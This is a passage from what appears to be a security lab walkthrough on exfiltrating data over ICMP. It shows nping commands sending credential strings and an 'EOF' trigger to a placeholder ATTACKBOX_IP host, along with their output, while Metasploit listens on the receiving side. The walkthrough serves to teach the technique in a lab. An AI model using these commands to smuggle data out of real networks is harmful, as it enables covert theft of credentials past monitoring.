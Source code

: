 Now check the AttackBox terminal. If everything is set correctly, the Metasploit framework should identify the trigger value and wait for the data to be written to disk. 

Let's start sending the required data and the end of the file trigger value from the ICMP machine.

Sending the Data and the End of the File Trigger Value  

```markup
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin:password"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:23 EEST
SENT (0.0312s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=14633 seq=1] IP [ttl=64 id=13497 iplen=42 ]
RCVD (0.0328s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=14633 seq=1] IP [ttl=63 id=17031 iplen=42 ]
RCVD (0.0703s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=14633 seq=1] IP [ttl=31 id=41138 iplen=30 ]
    
Max rtt: 39.127ms | Min rtt: 1.589ms | Avg rtt: 20.358ms
Raw packets sent: 1 (42B) | Rcvd: 2 (72B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds 
    
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin2:password2"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:24 EEST
SENT (0.0354s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=39051 seq=1] IP [ttl=64 id=32661 iplen=44 ]
RCVD (0.0358s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=39051 seq=1] IP [ttl=63 id=18581 iplen=44 ]
RCVD (0.0748s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=39051 seq=1] IP [ttl=31 id=2149 iplen=30 ]
    
Max rtt: 39.312ms | Min rtt: 0.371ms | Avg rtt: 19.841ms
Raw packets sent: 1 (44B) | Rcvd: 2 (74B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.07 seconds 
    
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "EOF"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:24 EEST
SENT (0.0364s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=33619 seq=1] IP [ttl=64 id=51488 iplen=31 ]
RCVD (0.0369s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=33619 seq=1] IP [ttl=63 id=19671 iplen=31 ]
RCVD (0.3760s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=33619 seq=1] IP [ttl=31 id=1003 iplen=36 ]
    
Max rtt: 339.555ms | Min rtt: 0.391ms | Avg rtt: 169.973ms
Raw packets sent: 1 (31B) | Rcvd: 2 (67B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.07 seconds
thm@icmp-host:~#
```

Let's check our AttackBox once we have done sending the data and the ending trigger value.
